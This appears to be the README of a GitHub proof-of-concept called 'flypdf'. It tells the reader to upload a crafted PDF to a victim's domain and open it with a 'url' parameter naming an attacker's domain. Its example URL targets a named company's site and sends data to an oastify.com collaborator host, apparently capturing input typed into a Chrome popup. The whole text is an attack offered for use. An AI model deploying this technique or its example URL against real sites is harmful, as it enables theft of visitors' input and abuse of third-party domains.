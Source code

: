 # flypdf

Just upload the pdf file to victim's domain

The open this file in victim's domain with `url` parameter is attacker's domain.

Ex: http://www.flyseccorp.com/files/chrome_popup_send_input_by_lamscun.pdf?url=http://222finzjhx4uw5v59kirj6qcm3svgmcpetahz.oastify.com

![poc_pdf_1](https://github.com/FlySecCorp/flypdf/assets/126087206/1a4bf497-b3c2-4e01-81d2-eea27ac86573)

